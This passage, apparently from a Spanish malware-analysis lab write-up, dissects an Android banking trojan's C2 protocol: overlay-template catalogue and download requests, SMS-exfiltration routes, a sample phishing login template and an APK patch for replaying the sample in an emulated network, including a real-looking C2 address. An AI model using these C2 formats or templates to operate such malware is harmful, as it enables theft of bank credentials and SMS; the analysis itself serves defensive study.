La llamada `b(string, JSON, handler)` selecciona una segunda variante de la rutina HTTP general. Su código mantiene Base64 y las mismas cabeceras, pero no establece `Content-Length` de forma explícita. La respuesta debe tener código `200` y un cuerpo no vacío que sea un objeto JSON válido.

### Respuesta `/sban`

El código HTTP 200 y la validez sintáctica del JSON solo satisfacen los requisitos de transporte y análisis. Para que el cliente descargue una plantilla, el cuerpo debe adoptar además la estructura de catálogo que espera el manejador. No se trata de una matriz ni de un objeto con un campo denominado `templates`: el propio objeto de nivel superior contiene una o más propiedades que describen las plantillas ofrecidas por el C2.

Una respuesta mínima que ofrece una plantilla principal y su variante de trabajo técnico tiene esta forma:

```json
{
  "<PAQUETE_OBJETIVO>": "<SELECTOR_PRINCIPAL>",
  "<PAQUETE_OBJETIVO>2": "<SELECTOR_TECNICO>"
}
```

El nombre de la primera propiedad, `<PAQUETE_OBJETIVO>`, identifica la plantilla y normalmente coincide con el nombre del paquete Android sobre el que se mostrará. Su valor, `<SELECTOR_PRINCIPAL>`, no es el documento HTML: es una cadena que la APK enviará posteriormente a `/gt` para solicitarlo. La segunda propiedad es opcional. Su nombre se obtiene añadiendo el carácter `2` al nombre principal y su valor es el selector utilizado para descargar la plantilla de trabajo técnico, es decir, la plantilla de continuación al engaño de exfiltración de credenciales bancarias.

### Descarga principal mediante `/gt`

La solicitud que procede a los selectores es:

```http
POST /gt HTTP/1.1
Host: 192.168.56.20:8060
Accept: text/html,application/xhtml+xml,application/xml,application/json;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Content-Type: application/json
Content-Length: <longitud de SELECTOR_PRINCIPAL>

<SELECTOR_PRINCIPAL>
```

En este caso el contenido lo escribe sin Base64. El cuerpo de la respuesta al primer `/gt` es la plantilla HTML principal. Sin embargo, el malware no valida que la cadena recibida sea realmente HTML. La rutina de red solo exige un código `200` y un cuerpo no vacío; el manejador vuelve a comprobar únicamente que la cadena no sea nula ni esté vacía. 

Una plantilla principal mínima, autocontenida y expresamente creada para el caso práctico en desarrollo puede ser:

```html
<!doctype html><html><head><meta charset="utf-8"><title>Entidad de laboratorio</title></head><body><h1>Acceso de laboratorio</h1><form><label>Usuario <input name="usuario"></label><label>Clave <input name="clave" type="password"></label><button type="button">Entrar</button></form><script>document.body.setAttribute("data-laboratorio","ejecutado");</script></body></html>
```

El lector HTTP concatena las líneas sin reinsertar sus separadores, por lo que conviene servir el documento en una sola línea, como en el ejemplo, o evitar construcciones JavaScript que dependan de saltos de línea, como los comentarios `//`.

Después de recibir esa cadena, el manejador almacena:

```text
templateName = <PAQUETE_OBJETIVO>
html = <HTML_PRINCIPAL>
entered = 0
sended = 0
```

Si la fila todavía no existe, la inserta; si existe, actualiza `templateName` y `html`. La segunda descarga solo se inicia después de almacenar el HTML principal.

Los campos `entered` y `sended` describen estados posteriores que todavía no han ocurrido: `entered` indica si el usuario ya ha enviado datos desde la plantilla y `sended` indica si esos datos ya se han remitido al C2. Ambos comienzan en cero.

### Segunda solicitud `/gt`: descarga y almacenamiento de la plantilla técnica

Después de almacenar satisfactoriamente la plantilla principal, y dentro de la cadena del mismo manejador, la presencia de `<PAQUETE_OBJETIVO>2` provoca otra solicitud idéntica a la primera salvo en contenido del cuerpo.

En esta ocasión, la llamada a la base de datos actualiza `technicalWorkHtml` en lugar de `html`.

### Tráfico automático posterior al registro: `/sy`, `/ssl` y `/ucs`

Tras el registro, el malware genera peticiones a otras rutas, en paralelo a las relacionadas con las plantillas. Debido a la complejidad de las diferentes rutas relacionadas con el canal C&C, la siguiente imagen sirve como apoyo al análisis (no aparecen todas las rutas):


La ruta `/sy` consulta al C2 si existen comandos pendientes, `/ssl` envía la lista de mensajes SMS recopilada y `/ucs` confirma que la orden correspondiente ha sido procesada. En conjunto, implementan el ciclo de recepción de una orden, entrega de los datos solicitados y confirmación de su ejecución. 
### Secuencia comunicativa

El diagrama representa una secuencia que alcanza las tres técnicas seleccionadas y el tráfico que puede producir el primer vencimiento general posterior al registro. El bloque `par` refleja que la descarga de plantillas, la consulta `/sy` y la acción automática `getSmsList` se inician desde tareas diferentes y no tienen un orden relativo garantizado. 



### Laboratorio de generación del PCAP

La ejecución completa requiere parchear la APK original. El análisis con JADX mostró que la clase ofuscada `a.a.b.m` busca los recursos `entities-base.properties` y `entities-full.properties` dentro de `a/a/b/`, pero la APK los conserva en `org/jsoup/nodes/`. La búsqueda devuelve `null` y provoca una `ExceptionInInitializerError` al inicializar el analizador HTML empleado por la muestra para Twitter y TimeAPI. Esto es un claro ejemplo de que la ofuscación no es una ciencia exacta y que requiere tiempo, por ello en malwares como S0535-GoldenCup se optó por no usarse.

El parche duplica ambos recursos en las rutas esperadas por la clase. La APK resultante se alineó y firmó mediante `zipalign` y `apksigner`. El laboratorio ejecuta la APK parcheada en una imagen de Android con API 19. Tras un estudio de IOCs, la red ha de configurarse:

| Entidad            | Dirección y servicio | Procedencia                                                          |
| ------------------ | -------------------- | -------------------------------------------------------------------- |
| DNS controlado     | `10.230.39.53:53`    | Dirección privada asignada al resolutor del laboratorio.             |
| TimeAPI emulada    | `10.230.39.10:80`    | Dirección privada elegida para reproducir `www.timeapi.org`.         |
| Twitter emulado    | `10.230.39.11:443`   | Dirección privada elegida para entregar el texto del C2 alternativo. |
| Dirección primaria | `146.0.72.85:7878`   | No se implementa, para que se ejecute la petición a Twitter.         |
| C2 alternativo     | `192.168.56.20:8060` | Dirección privada del escenario suministrada por Twitter.            |

